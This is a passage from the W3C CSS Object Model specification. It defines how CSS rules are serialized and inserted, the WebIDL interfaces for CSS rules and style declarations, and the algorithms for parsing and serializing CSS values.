: The literal string "`@namespace`", followed by a single SPACE (U+0020), followed by the serialization as an identifier of the `prefix` attribute (if any), followed by a single SPACE (U+0020) if there is a prefix, followed by the serialization as URL of the `namespaceURI` attribute, followed the character "`;`" (U+003B).

**`CSSKeyframesRule`**

: The result of concatenating the following:

  1. The literal string "`@keyframes`", followed by a single SPACE (U+0020).
  2. The serialization of the `name` attribute. If the attribute is a CSS wide keyword, or the value `default`, or the value `none`, then it is serialized as a string. Otherwise, it is serialized as an identifier.
  3. The string "`{`", i.e., a single SPACE (U+0020), followed by LEFT CURLY BRACKET (U+007B), followed by a single SPACE (U+0020).
  4. The result of performing serialize a CSS rule on each rule in the rule’s `cssRules` list, separated by a newline and indented by two spaces.
  5. A newline, followed by the string "}", i.e., RIGHT CURLY BRACKET (U+007D)

**`CSSKeyframeRule`**

: The result of concatenating the following:

  1. The `keyText`.
  2. The string "`{`", i.e., a single SPACE (U+0020), followed by LEFT CURLY BRACKET (U+007B), followed by a single SPACE (U+0020).
  3. The result of performing serialize a CSS declaration block on the rule’s associated declarations.
  4. If the rule is associated with one or more declarations, the string "", i.e., a single SPACE (U+0020).
  5. The string "`}`", RIGHT CURLY BRACKET (U+007D).

> **Issue:** The "indented by two spaces" bit matches browsers, but needs work, see [#5494](https://github.com/w3c/csswg-drafts/issues/5494)

To **insert a CSS rule** *rule* in a CSS rule list *list* at index *index*, with a flag *nested*, follow these steps:

1. Set *length* to the number of items in *list*.
2. If *index* is greater than *length*, then throw an `IndexSizeError` exception.
3. Set *new rule* to the results of performing parse a CSS rule on argument *rule*.
4. If *new rule* is a syntax error, and *nested* is set, perform the following substeps:

  - Set *declarations* to the results of performing parse a CSS declaration block, on argument *rule*.
  - If *declarations* is empty, throw a `SyntaxError` exception.
  - Otherwise, set *new rule* to a new nested declarations rule with *declarations* as it contents.
5. If *new rule* is a syntax error, throw a `SyntaxError` exception.
6. If *new rule* cannot be inserted into *list* at the zero-indexed position *index* due to constraints specified by CSS, then throw a `HierarchyRequestError` exception. [CSS21]

   > **Note:** For example, a CSS style sheet cannot contain an `@import` at-rule after a style rule.
7. If *new rule* is an `@namespace` at-rule, and *list* contains anything other than `@import` at-rules, and `@namespace` at-rules, throw an `InvalidStateError` exception.
8. Insert *new rule* into *list* at the zero-indexed position *index*.
9. Return *index*.

To **remove a CSS rule** from a CSS rule list *list* at index *index*, follow these steps:

1. Set *length* to the number of items in *list*.
2. If *index* is greater than or equal to *length*, then throw an `IndexSizeError` exception.
3. Set *old rule* to the *index*th item in *list*.
4. If *old rule* is an `@namespace` at-rule, and *list* contains anything other than `@import` at-rules, and `@namespace` at-rules, throw an `InvalidStateError` exception.
5. Remove rule *old rule* from *list* at the zero-indexed position *index*.
6. Set *old rule*’s parent CSS rule and parent CSS style sheet to null.

##### 6.4.1. The `CSSRuleList` Interface {#cssom-1:the-cssrulelist-interface}

The `CSSRuleList` interface represents an ordered collection of CSS rules.

```webidl
[Exposed=Window]
interface CSSRuleList {
  getter CSSRule? item(unsigned long index);
  readonly attribute unsigned long length;
};
```

The object’s supported property indices are the numbers in the range zero to one less than the number of `CSSRule` objects represented by the collection. If there are no such `CSSRule` objects, then there are no supported property indices.

The **`item(index)`** method must return the *index*th `CSSRule` object in the collection. If there is no *index*th object in the collection, then the method must return null.

The **`length`** attribute must return the number of `CSSRule` objects represented by the collection.

##### 6.4.2. The `CSSRule` Interface {#cssom-1:the-cssrule-interface}

The `CSSRule` interface represents an abstract, base CSS rule. Each distinct CSS rule type is represented by a distinct interface that inherits from this interface.

```webidl
[Exposed=Window]
interface CSSRule {
  attribute CSSOMString cssText;
  readonly attribute CSSRule? parentRule;
  readonly attribute CSSStyleSheet? parentStyleSheet;

  // the following attribute and constants are historical
  readonly attribute unsigned short type;
  const unsigned short STYLE_RULE = 1;
  const unsigned short CHARSET_RULE = 2;
  const unsigned short IMPORT_RULE = 3;
  const unsigned short MEDIA_RULE = 4;
  const unsigned short FONT_FACE_RULE = 5;
  const unsigned short PAGE_RULE = 6;
  const unsigned short MARGIN_RULE = 9;
  const unsigned short NAMESPACE_RULE = 10;
};
```

The **`cssText`** attribute must return a serialization of the CSS rule. On setting the `cssText` attribute must do nothing.

The **`parentRule`** attribute must return the parent CSS rule.

> **Note:** For example, `@media` can enclose a rule, in which case `parentRule` would be non-null; in cases where there is no enclosing rule, `parentRule` will be null.

The **`parentStyleSheet`** attribute must return the parent CSS style sheet.

> **Note:** The only circumstance where null is returned when a rule has been removed.

> **Note:** Removing a `Node` that implements the `LinkStyle` interface from a `Document` instance does not (by itself) cause the `CSSStyleSheet` referenced by a `CSSRule` to be unreachable.

The **`type`** attribute is deprecated. It must return an integer, as follows:

**If the object is a `CSSStyleRule`**

: Return 1.

**If the object is a `CSSImportRule`**

: Return 3.

**If the object is a `CSSMediaRule`**

: Return 4.

**If the object is a `CSSFontFaceRule`**

: Return 5.

**If the object is a `CSSPageRule`**

: Return 6.

**If the object is a `CSSKeyframesRule`**

: Return 7.

**If the object is a `CSSKeyframeRule`**

: Return 8.

**If the object is a `CSSMarginRule`**

: Return 9.

**If the object is a `CSSNamespaceRule`**

: Return 10.

**If the object is a `CSSCounterStyleRule`**

: Return 11.

**If the object is a `CSSSupportsRule`**

: Return 12.

**If the object is a `CSSFontFeatureValuesRule`**

: Return 14.

**Otherwise**

: Return 0.

> **Note:** The practice of using an integer enumeration and several constants to *identify* the integers is a legacy design practice that is no longer used in Web APIs. Instead, to tell what type of rule a given object is, it is recommended to check `rule.constructor.name`, which will return a string like `"CSSStyleRule"`. This enumeration is thus frozen in its current state, and no new new values will be added to reflect additional at-rules; all at-rules beyond the ones listed above will return 0.

##### 6.4.3. The `CSSStyleRule` Interface {#cssom-1:the-cssstylerule-interface}

The `CSSStyleRule` interface represents a style rule.

```webidl
[Exposed=Window]
interface CSSStyleRule : CSSGroupingRule {
  attribute CSSOMString selectorText;
  [SameObject, PutForwards=cssText] readonly attribute CSSStyleProperties style;
};
```

The **`selectorText`** attribute, on getting, must return the result of serializing the rule’s associated selector list. On setting the `selectorText` attribute these steps must be run:

1. Run the parse a group of selectors algorithm on the given value.
2. If the algorithm returns a non-null value replace the associated selector list with the returned value.
3. Otherwise, if the algorithm returns a null value, do nothing.

The **`style`** attribute must return a `CSSStyleProperties` object for the style rule, with the following properties:

**computed flag**

: Unset.

**readonly flag**

: Unset.

**declarations**

: The declared declarations in the rule, in specified order.

**parent CSS rule**

: this.

**owner node**

: Null.

The **specified order** for declarations is the same as specified, but with shorthand properties expanded into their longhand properties, in canonical order. If a property is specified more than once (after shorthand expansion), only the one with greatest cascading order must be represented, at the same relative position as it was specified. [CSS3CASCADE]

##### 6.4.4. The `CSSImportRule` Interface {#cssom-1:the-cssimportrule-interface}

The `CSSImportRule` interface represents an `@import` at-rule.

```webidl
[Exposed=Window]
interface CSSImportRule : CSSRule {
  readonly attribute USVString href;
  [SameObject, PutForwards=mediaText] readonly attribute MediaList media;
  [SameObject] readonly attribute CSSStyleSheet? styleSheet;
  readonly attribute CSSOMString? layerName;
  readonly attribute CSSOMString? supportsText;
};
```

The **`href`** attribute must return the URL specified by the `@import` at-rule.

> **Note:** To get the resolved URL use the `href` attribute of the associated CSS style sheet.

The **`media`** attribute must return the value of the `media` attribute of the associated CSS style sheet.

The **`styleSheet`** attribute must return the associated CSS style sheet, if any, or null otherwise.

The **`layerName`** attribute must return the layer name declared in the at-rule itself, or an empty string if the layer is anonymous, or null if the at-rule does not declare a layer.

The **`supportsText`** attribute must return the `<supports-condition>` declared in the at-rule itself, or null if the at-rule does not declare a supports condition.

> **Note:** An `@import` at-rule might not have an associated CSS style sheet (e.g., if it has a non-matching `supports()` condition).

##### 6.4.5. The `CSSGroupingRule` Interface {#cssom-1:the-cssgroupingrule-interface}

The `CSSGroupingRule` interface represents an at-rule that contains other rules nested inside itself.

```webidl
[Exposed=Window]
interface CSSGroupingRule : CSSRule {
  [SameObject] readonly attribute CSSRuleList cssRules;
  unsigned long insertRule(CSSOMString rule, optional unsigned long index = 0);
  undefined deleteRule(unsigned long index);
};
```

The **`cssRules`** attribute must return a `CSSRuleList` object for the child CSS rules.

The **`insertRule(rule, index)`** method must return the result of invoking insert a CSS rule *rule* into the child CSS rules at *index*, with the *nested* flag set.

The **`deleteRule(index)`** method must remove a CSS rule from the child CSS rules at *index*.

##### 6.4.6. The `CSSMediaRule` Interface {#cssom-1:the-cssmediarule-interface}

The `CSSMediaRule` interface is defined in CSS Conditional Rules. [CSS3-CONDITIONAL]

##### 6.4.7. The `CSSPageRule` Interface {#cssom-1:the-csspagerule-interface}

The `CSSPageRule` interface represents an `@page` at-rule.

> **Issue:** Need to define the rules for **parse a list of CSS page selectors** and **serialize a list of CSS page selectors**.

```webidl
[Exposed=Window]
interface CSSPageDescriptors : CSSStyleDeclaration {
  attribute [LegacyNullToEmptyString] CSSOMString margin;
  attribute [LegacyNullToEmptyString] CSSOMString marginTop;
  attribute [LegacyNullToEmptyString] CSSOMString marginRight;
  attribute [LegacyNullToEmptyString] CSSOMString marginBottom;
  attribute [LegacyNullToEmptyString] CSSOMString marginLeft;
  attribute [LegacyNullToEmptyString] CSSOMString margin-top;
  attribute [LegacyNullToEmptyString] CSSOMString margin-right;
  attribute [LegacyNullToEmptyString] CSSOMString margin-bottom;
  attribute [LegacyNullToEmptyString] CSSOMString margin-left;
  attribute [LegacyNullToEmptyString] CSSOMString size;
  attribute [LegacyNullToEmptyString] CSSOMString pageOrientation;
  attribute [LegacyNullToEmptyString] CSSOMString page-orientation;
  attribute [LegacyNullToEmptyString] CSSOMString marks;
  attribute [LegacyNullToEmptyString] CSSOMString bleed;
};

[Exposed=Window]
interface CSSPageRule : CSSGroupingRule {
           attribute CSSOMString selectorText;
  [SameObject, PutForwards=cssText] readonly attribute CSSPageDescriptors style;
};
```

The **`selectorText`** attribute, on getting, must return the result of serializing the associated selector list. On setting the `selectorText` attribute these steps must be run:

1. Run the parse a list of CSS page selectors algorithm on the given value.
2. If the algorithm returns a non-null value replace the associated selector list with the returned value.
3. Otherwise, if the algorithm returns a null value, do nothing.

The **`style`** attribute must return a `CSSPageDescriptors` object for the `@page` at-rule, with the following properties:

**computed flag**

: Unset.

**readonly flag**

: Unset.

**declarations**

: The declared descriptors in the rule, in specified order.

**parent CSS rule**

: this.

**owner node**

: Null.

##### 6.4.8. The `CSSMarginRule` Interface {#cssom-1:the-cssmarginrule-interface}

The `CSSMarginRule` interface represents a margin at-rule (e.g. `@top-left`) in an `@page` at-rule. [CSS3PAGE]

```webidl
[Exposed=Window]
interface CSSMarginRule : CSSRule {
  readonly attribute CSSOMString name;
  [SameObject, PutForwards=cssText] readonly attribute CSSMarginDescriptors style;
};
```

The **`name`** attribute must return the name of the margin at-rule. The `@` character is not included in the name. [CSS3SYN]

The **`style`** attribute must return a `CSSMarginDescriptors` object for the margin at-rule, with the following properties:

**computed flag**

: Unset.

**readonly flag**

: Unset.

**declarations**

: The declared declarations in the rule, in specified order.

**parent CSS rule**

: this.

**owner node**

: Null.

##### 6.4.9. The `CSSNamespaceRule` Interface {#cssom-1:the-cssnamespacerule-interface}

The `CSSNamespaceRule` interface represents an `@namespace` at-rule.

```webidl
[Exposed=Window]
interface CSSNamespaceRule : CSSRule {
  readonly attribute CSSOMString namespaceURI;
  readonly attribute CSSOMString prefix;
};
```

The **`namespaceURI`** attribute must return the namespace of the `@namespace` at-rule.

The **`prefix`** attribute must return the prefix of the `@namespace` at-rule or the empty string if there is no prefix.

#### 6.5. CSS Declarations {#cssom-1:css-declarations}

A **CSS declaration** is an abstract concept that is not exposed as an object in the DOM. A CSS declaration has the following associated properties:

****property name****

: The property name of the declaration.

****value****

: The value of the declaration represented as a list of component values.

****important flag****

: Either set or unset. Can be changed.

****case-sensitive flag****

: Set if the property name is defined to be case-sensitive according to its specification, otherwise unset.

#### 6.6. CSS Declaration Blocks {#cssom-1:css-declaration-blocks}

A **CSS declaration block** is an ordered collection of CSS properties with their associated values, also named CSS declarations. In the DOM a CSS declaration block is a `CSSStyleDeclaration` object. A CSS declaration block has the following associated properties:

****computed flag****

: Set if the object is a computed style declaration, rather than a specified style. Unless otherwise stated it is unset.

****readonly flag****

: Set if the object is not modifiable.

****declarations****

: The CSS declarations associated with the object.

****parent CSS rule****

: The CSS rule that the CSS declaration block is associated with, if any, or null otherwise.

****owner node****

: The `Element` that the CSS declaration block is associated with, if any, or null otherwise.

****updating flag****

: Unset by default. Set when the CSS declaration block is updating the owner node’s `style` attribute.

To **parse a CSS declaration block** from a string *string*, follow these steps:

1. Let *declarations* be the returned declarations from invoking parse a list of declarations with *string*.
2. Let *parsed declarations* be a new empty list.
3. For each item *declaration* in *declarations*, follow these substeps:

  1. Let *parsed declaration* be the result of parsing *declaration* according to the appropriate CSS specifications, dropping parts that are said to be ignored. If the whole declaration is dropped, let *parsed declaration* be null.
  2. If *parsed declaration* is not null, append it to *parsed declarations*.
4. Return *parsed declarations*.

To **serialize a CSS declaration** with property name *property*, value *value* and optionally an *important* flag set, follow these steps:

1. Let *s* be the empty string.
2. Append *property* to *s*.
3. Append "`:`" (U+003A U+0020) to *s*.
4. If *value* contains any non-whitespace characters, append *value* to *s*.
5. If the *important* flag is set, append "`!important`" (U+0020 U+0021 U+0069 U+006D U+0070 U+006F U+0072 U+0074 U+0061 U+006E U+0074) to *s*.
6. Append "`;`" (U+003B) to *s*.
7. Return *s*.

To **serialize a CSS declaration block** *declaration block*, run the following steps. It will return a string representing the serialization of all the declarations in *declaration block*.

1. Let *serialized props* initially be the empty list.
2. Let *already serialized* initially be the empty set.
3. Let *decls* be *declaration block*’s declarations.
4. For each CSS declaration *decl* in *decls*:

  1. Let *name* be *decl*’s property name.
  2. If *name* is in *already serialized*, continue.
  3. Attempt to serialize into a shorthand form *name*, given *decls* and *already serialized*. If this returns a string, append it to *serialized props* and continue.
  4. Otherwise, serialize a CSS declaration with property name *name*, value the result of serializing a CSS value from *decl*, and the important flag set if *decl* has it set. Append the result to *serialized props*.
  5. Append *name* to *already serialized*.
5. Return the result of concatenating *serialized props*, with separator "" (U+0020 SPACE).

To **serialize into a shorthand form** a property *property*, given a list of CSS declarations *decls* and a set of already-serialized declarations *already serialized*, run the following steps. It will return either a string representing the serialization of a shorthand that *property* is part of, or failure, and will mutate *already serialized*.

1. Let *possible shorthands* be a list of shorthand declaration names that *property* is a longhand for, in preferred shorthand order.
2. For each *shorthand* in *possible shorthands*:

  1. Let *needed longhand names* be the names of the longhands that *shorthand* maps to.
  2. If any of *needed longhand names* is not in *decls*, continue.
  3. If any of *needed longhand names* is in *already serialized*, continue.
  4. Let *used longhands* be the declarations from *decls* corresponding to the property names in *needed longhand names*.
  5. If there is at least one declaration in *used longhands* with its important flag set, and at least one without it set, continue.
  6. If any of the intermixed properties in *decls* between *used longhands* belong to the same logical property group as a longhand in *used longhands* but have a different mapping logic, and are not in *used longhands*, continue.
  7. Serialize a CSS value with *used longhands*, and let *value* be the result.
  8. If *value* is the empty string, continue.
  9. Append the property names of all the items in *used longhands* to *already serialized*.
  10. Serialize a CSS declaration with property name *shorthand*, value *value*, and the important flag set if all the *used longhands* have it set. Return the result.
3. Return failure.

To get a list of **intermixed properties** in a list of declarations *decls* between a set of properties *props*:

1. Find the first and last declarations in *decls* that belong to *props*.
2. Return the slice of *decls* between (and including) those two declarations.

> **Note:** The serialization of an empty CSS declaration block is the empty string.

> **Note:** The serialization of a non-empty CSS declaration block does not include any surrounding whitespace, i.e., no whitespace appears before the first property name and no whitespace appears after the final semicolon delimiter that follows the last property value.

A CSS declaration block has these attribute change steps for its owner node with *localName*, *value*, and *namespace*:

1. If the computed flag is set, then return.
2. If the updating flag is set, then return.
3. If *localName* is not "`style`", or *namespace* is not null, then return.
4. If *value* is null, empty the declarations.
5. Otherwise, let the declarations be the result of parse a CSS declaration block from a string *value*.

When a CSS declaration block object is created, then:

1. Let *owner node* be the owner node.
2. If *owner node* is null, or the computed flag is set, then return.
3. Let *value* be the result of getting an attribute given null, "`style`", and *owner node*.
4. If *value* is not null, let the declarations be the result of parse a CSS declaration block from a string *value*.

To **update style attribute for** *declaration block* means to run the steps below:

1. Assert: *declaration block*’s computed flag is unset.
2. Let *owner node* be *declaration block*’s owner node.
3. If *owner node* is null, then return.
4. Set *declaration block*’s updating flag.
5. Set an attribute value for *owner node* using "`style`" and the result of serializing *declaration block*.
6. Unset *declaration block*’s updating flag.

The **preferred shorthand order** of a list of shorthand properties *shorthands* is as follows:

1. Order *shorthands* lexicographically.
2. Remove all items in *shorthands* that are legacy shorthands but do not begin with "`-`" (U+002D).
3. Move all items in *shorthands* that begin with "`-webkit-`" (U+002D) last in the list, retaining their relative order.
4. Move all items in *shorthands* that begin with "`-`" (U+002D) but do not begin with "`-webkit-`" last in the list, retaining their relative order.
5. Order *shorthands* by the number of longhand properties that map to it, with the greatest number first, retaining their relative order.

##### 6.6.1. The `CSSStyleDeclaration` Interface {#cssom-1:the-cssstyledeclaration-interface}

The `CSSStyleDeclaration` interface represents a CSS declaration block, including its underlying state, where this underlying state depends upon the source of the `CSSStyleDeclaration` instance.

```webidl
[Exposed=Window]
interface CSSStyleDeclaration {
  [CEReactions] attribute CSSOMString cssText;
  readonly attribute unsigned long length;
  getter CSSOMString item(unsigned long index);
  CSSOMString getPropertyValue(CSSOMString property);
  CSSOMString getPropertyPriority(CSSOMString property);
  [CEReactions] undefined setProperty(CSSOMString property, [LegacyNullToEmptyString] CSSOMString value, optional [LegacyNullToEmptyString] CSSOMString priority = "");
  [CEReactions] CSSOMString removeProperty(CSSOMString property);
  readonly attribute CSSRule? parentRule;
};

[Exposed=Window]
interface CSSStyleProperties : CSSStyleDeclaration {
  [CEReactions] attribute [LegacyNullToEmptyString] CSSOMString cssFloat;
};
```

The object’s supported property indices are the numbers in the range zero to one less than the number of CSS declarations in the declarations. If there are no such CSS declarations, then there are no supported property indices.

Getting the **`cssText`** attribute must run these steps:

1. If the computed flag is set, then return the empty string.
2. Return the result of serializing the declarations.

Setting the `cssText` attribute must run these steps:

1. If the readonly flag is set, then throw a `NoModificationAllowedError` exception.
2. Empty the declarations.
3. Parse the given value and, if the return value is not the empty list, insert the items in the list into the declarations, in specified order.
4. Update style attribute for the CSS declaration block.

The **`length`** attribute must return the number of CSS declarations in the declarations.

The **`item(index)`** method must return the property name of the CSS declaration at position *index*. If there is no *index*th object in the collection, then the method must return the empty string.

The **`getPropertyValue(property)`** method must run these steps:

1. If *property* is not a custom property, follow these substeps:

  1. Let *property* be *property* converted to ASCII lowercase.
  2. If *property* is a shorthand property, then follow these substeps:

    1. Let *list* be a new empty array.
    2. For each longhand property *longhand* that *property* maps to, in canonical order, follow these substeps:

      1. If *longhand* is a case-sensitive match for a property name of a CSS declaration in the declarations, let *declaration* be that CSS declaration, or null otherwise.
      2. If *declaration* is null, then return the empty string.
      3. Append the *declaration* to *list*.
    3. If important flags of all declarations in *list* are same, then return the serialization of *list*.
    4. Return the empty string.
2. If *property* is a case-sensitive match for a property name of a CSS declaration in the declarations, then return the result of invoking serialize a CSS value of that declaration.
3. Return the empty string.

The **`getPropertyPriority(property)`** method must run these steps:

1. If *property* is not a custom property, follow these substeps:

  1. Let *property* be *property* converted to ASCII lowercase.
  2. If *property* is a shorthand property, follow these substeps:

    1. Let *list* be a new array.
    2. For each longhand property *longhand* that *property* maps to, append the result of invoking `getPropertyPriority()` with *longhand* as argument to *list*.
    3. If all items in *list* are the string "`important`", then return the string "`important`".
2. If *property* is a case-sensitive match for a property name of a CSS declaration in the declarations that has the important flag set, return the string "`important`".
3. Return the empty string.

> **Example:** E.g. for `background-color:lime !IMPORTANT` the return value would be "`important`".

The **`setProperty(property, value, priority)`** method must run these steps:

1. If the readonly flag is set, then throw a `NoModificationAllowedError` exception.
2. If *property* is not a custom property, follow these substeps:

  1. Let *property* be *property* converted to ASCII lowercase.
  2. If *property* is not a case-sensitive match for a supported CSS property, then return.
3. If *value* is the empty string, invoke `removeProperty()` with *property* as argument and return.
4. If *priority* is not the empty string and is not an ASCII case-insensitive match for the string "`important`", then return.
5. Let *component value list* be the result of parsing *value* for property *property*.

   > **Note:** *value* can not include "`!important`".
6. If *component value list* is null, then return.
7. Let *updated* be false.
8. If *property* is a shorthand property, then for each longhand property *longhand* that *property* maps to, in canonical order, follow these substeps:

  1. Let *longhand result* be the result of set the CSS declaration *longhand* with the appropriate value(s) from *component value list*, with the *important* flag set if *priority* is not the empty string, and unset otherwise, and with the list of declarations being the declarations.
  2. If *longhand result* is true, let *updated* be true.
9. Otherwise, let *updated* be the result of set the CSS declaration *property* with value *component value list*, with the *important* flag set if *priority* is not the empty string, and unset otherwise, and with the list of declarations being the declarations.
10. If *updated* is true, update style attribute for the CSS declaration block.

To **set a CSS declaration** *property* with a value *component value list* and optionally with an *important* flag set, in a list of declarations *declarations*, the user agent must ensure the following constraints hold after its steps:

- Exactly one CSS declaration whose property name is a case-sensitive match of *property* must exist in *declarations*. Such declaration is referenced as the *target declaration* below.
- The *target declaration* must have value being *component value list*, and *target declaration*’s important flag must be set if *important* flag is set, and unset otherwise.
- Any CSS declaration which is not the *target declaration* must not be changed, inserted, or removed from *declarations*.
- If there are CSS declarations in *declarations* whose property name is in the same logical property group as *property*, but has a different mapping logic, *target declaration* must be at an index after all of those CSS declarations.
- The steps must return true if the serialization of *declarations* was changed as result of the steps. It may return false otherwise.

> **Issue:** Should we add something like "Any observable side effect must not be made outside *declarations*"? The current constraints sound like a hole for undefined behavior.

> **Note:** The steps of set a CSS declaration are not defined in this level of CSSOM. User agents may use different algorithms as long as the constraints above hold.

> **Example:** The simplest way to conform with the constraints would be to always remove any existing declaration matching *property*, and append the new declaration to the end. But based on implementation feedback, this approach would likely regress performance.
>
> Another possible algorithm is:
>
> 1. If *property* is a case-sensitive match for a property name of a CSS declaration in *declarations*, follow these substeps:
>
>   1. Let *target declaration* be such CSS declaration.
>   2. Let *needs append* be false.
>   3. For each *declaration* in *declarations* after *target declaration*:
>
>     1. If *declaration*’s property name is not in the same logical property group as *property*, then continue.
>     2. If *declaration*’ property name has the same mapping logic as *property*, then continue.
>     3. Let *needs append* be true.
>     4. Break.
>   4. If *needs append* is false, then:
>
>     1. Let *needs update* be false.
>     2. If *target declaration*’s value is not equal to *component value list*, then let *needs update* be true.
>     3. If *target declaration*’s important flag is not equal to whether *important* flag is set, then let *needs update* be true.
>     4. If *needs update* is false, then return false.
>     5. Set *target declaration*’s value to *component value list*.
>     6. If *important* flag is set, then set *target declaration*’s important flag, otherwise unset it.
>     7. Return true.
>   5. Otherwise, remove *target declaration* from *declarations*.
> 2. Append a new CSS declaration with property name *property*, value *component value list*, and important flag set if *important* flag is set to *declarations*.
> 3. Return true.

The **`removeProperty(property)`** method must run these steps:

1. If the readonly flag is set, then throw a `NoModificationAllowedError` exception.
2. If *property* is not a custom property, let *property* be *property* converted to ASCII lowercase.
3. Let *value* be the return value of invoking `getPropertyValue()` with *property* as argument.
4. Let *removed* be false.
5. If *property* is a shorthand property, for each longhand property *longhand* that *property* maps to:

  1. If *longhand* is not a property name of a CSS declaration in the declarations, continue.
  2. Remove that CSS declaration and let *removed* be true.
6. Otherwise, if *property* is a case-sensitive match for a property name of a CSS declaration in the declarations, remove that CSS declaration and let *removed* be true.
7. If *removed* is true, Update style attribute for the CSS declaration block.
8. Return *value*.

The **`parentRule`** attribute must return the parent CSS rule.

The **`cssFloat`** attribute, on getting, must return the result of invoking `getPropertyValue()` with `float` as argument. On setting, the attribute must invoke `setProperty()` with `float` as first argument, as second argument the given value, and no third argument. Any exceptions thrown must be re-thrown.

For each CSS property *property* that is a supported CSS property, the following partial interface applies where **`camel-cased attribute`** is obtained by running the CSS property to IDL attribute algorithm for *property*.

```webidl
partial interface CSSStyleProperties {
  [CEReactions] attribute [LegacyNullToEmptyString] CSSOMString _camel_cased_attribute;
};
```

The *camel-cased attribute* attribute, on getting, must return the result of invoking `getPropertyValue()` with the argument being the result of running the IDL attribute to CSS property algorithm for *camel-cased attribute*.

Setting the *camel-cased attribute* attribute must invoke `setProperty()` with the first argument being the result of running the IDL attribute to CSS property algorithm for *camel-cased attribute*, as second argument the given value, and no third argument. Any exceptions thrown must be re-thrown.

> **Example:** For example, for the `font-size` property there would be a `fontSize` IDL attribute.

For each CSS property *property* that is a supported CSS property and that begins with the string `-webkit-`, the following partial interface applies where *webkit-cased attribute* is obtained by running the CSS property to IDL attribute algorithm for *property*, with the *lowercase first* flag set.

```webidl
partial interface CSSStyleProperties {
  [CEReactions] attribute [LegacyNullToEmptyString] CSSOMString _webkit_cased_attribute;
};
```

The **`webkit-cased attribute`** attribute, on getting, must return the result of invoking `getPropertyValue()` with the argument being the result of running the IDL attribute to CSS property algorithm for *webkit-cased attribute*, with the *dash prefix* flag set.

Setting the *webkit-cased attribute* attribute must invoke `setProperty()` with the first argument being the result of running the IDL attribute to CSS property algorithm for *webkit-cased attribute*, with the *dash prefix* flag set, as second argument the given value, and no third argument. Any exceptions thrown must be re-thrown.

> **Example:** For example, if the user agent supports the `-webkit-transform` property, there would be a `webkitTransform` IDL attribute. There would also be a `WebkitTransform` IDL attribute because of the rules for camel-cased attributes.

For each CSS property *property* that is a supported CSS property, except for properties that have no "`-`" (U+002D) in the property name, the following partial interface applies where *dashed attribute* is *property*.

```webidl
partial interface CSSStyleProperties {
  [CEReactions] attribute [LegacyNullToEmptyString] CSSOMString _dashed_attribute;
};
```

The **`dashed attribute`** attribute, on getting, must return the result of invoking `getPropertyValue()` with the argument being *dashed attribute*.

Setting the *dashed attribute* attribute must invoke `setProperty()` with the first argument being *dashed attribute*, as second argument the given value, and no third argument. Any exceptions thrown must be re-thrown.

> **Example:** For example, for the `font-size` property there would be a `font-size` IDL attribute. In JavaScript, the property can be accessed as follows, assuming *element* is an HTML element:
>
> ```
> element.style['font-size'];
> ```

The **CSS property to IDL attribute** algorithm for *property*, optionally with a *lowercase first* flag set, is as follows:

1. Let *output* be the empty string.
2. Let *uppercase next* be unset.
3. If the *lowercase first* flag is set, remove the first character from *property*.
4. For each character *c* in *property*:

  1. If *c* is "`-`" (U+002D), let *uppercase next* be set.
  2. Otherwise, if *uppercase next* is set, let *uppercase next* be unset and append *c* converted to ASCII uppercase to *output*.
  3. Otherwise, append *c* to *output*.
5. Return *output*.

The **IDL attribute to CSS property** algorithm for *attribute*, optionally with a *dash prefix* flag set, is as follows:

1. Let *output* be the empty string.
2. If the *dash prefix* flag is set, append "`-`" (U+002D) to *output*.
3. For each character *c* in *attribute*:

  1. If *c* is in the range U+0041 to U+005A (ASCII uppercase), append "`-`" (U+002D) followed by *c* converted to ASCII lowercase to *output*.
  2. Otherwise, append *c* to *output*.
4. Return *output*.

#### 6.7. CSS Values {#cssom-1:css-values}

##### 6.7.1. Parsing CSS Values {#cssom-1:parsing-css-values}

To **parse a CSS value** *value* for a given *property* means to follow these steps:

1. Let *list* be the value returned by invoking parse a list of component values from *value*.
2. Match *list* against the grammar for the property *property* in the CSS specification.
3. If the above step failed, return null.
4. Return *list*.

> **Note:** "`!important`" declarations are not part of the property value space and will therefore cause parse a CSS value to return null.

##### 6.7.2. Serializing CSS Values {#cssom-1:serializing-css-values}

To **serialize a CSS value** of a CSS declaration *declaration* or a list of longhand CSS declarations *list*, follow these rules:

1. If this algorithm is invoked with a list *list*:

  1. Let *shorthand* be the first shorthand property, in preferred shorthand order, that exactly maps to all of the longhand properties in *list*.
  2. If there is no such shorthand or *shorthand* cannot exactly represent the values of all the properties in *list*, return the empty string.
  3. Otherwise, serialize a CSS value from a hypothetical declaration of the property *shorthand* with its value representing the combined values of the declarations in *list*.
2. Represent the value of the *declaration* as a list of CSS component values *components* that, when parsed according to the property’s grammar, would represent that value. Additionally, unless otherwise specified:

  - If certain component values can appear in any order without changing the meaning of the value (a pattern typically represented by a double bar || in the value syntax), reorder the component values to use the canonical order of component values as given in the property definition table.
  - If component values can be omitted or replaced with a shorter representation without changing the meaning of the value, omit/replace them.
  - If either of the above syntactic translations would be less backwards-compatible, do not perform them.

   > **Note:** The rules described here outline the *general principles* of serialization. For legacy reasons, some properties serialize in a different manner, which is intentionally undefined here due to lack of resources. Please consult that property’s specification and/or your local reverse-engineer for details.
3. Remove any `<whitespace-token>`s from *components*.
4. Replace each component value in *components* with the result of invoking serialize a CSS component value.
5. Join the items of *components* into a single string, inserting " " (U+0020 SPACE) between each pair of items unless the second item is a "," (U+002C COMMA) Return the result.

To **serialize a CSS component value** depends on the component, as follows:

**keyword**

: The keyword converted to ASCII lowercase.

**`<angle>`**

: The <number> component serialized as per <number> followed by the unit in canonical form as defined in its respective specification.

  > **Issue:** Probably should distinguish between declared and computed / resolved values.

**`<color>`**

: If <color> is a component of a resolved value, see [CSS Color 4 §  15. Resolving <color> Values](#css-color-4:resolving-color-values).

  If <color> is a component of a computed value, see [CSS Color 4 §  16. Serializing <color> Values](#css-color-4:serializing-color-values).

  If `<color>` is a component of a declared value, then

  for sRGB values, see [CSS Color 4 § 15.1 Resolving sRGB values](#css-color-4:resolving-sRGB-values). For other color functions, see [CSS Color 4 §  15. Resolving <color> Values](#css-color-4:resolving-color-values).

**`<alpha-value>`**

: See [CSS Color 4 § 16.1 Serializing alpha values](#css-color-4:serializing-alpha-values).

**`<counter>`**

: The return value of the following algorithm:

  1. Let *s* be the empty string.
  2. If <counter> has three CSS component values append the string "`counters(`" to *s*.
  3. If <counter> has two CSS component values append the string "`counter(`" to *s*.
  4. Let *list* be a list of CSS component values belonging to <counter>, omitting the last CSS component value if it is "decimal".
  5. Let each item in *list* be the result of invoking serialize a CSS component value on that item.
  6. Append the result of invoking serialize a comma-separated list on *list* to *s*.
  7. Append "`)`" (U+0029) to *s*.
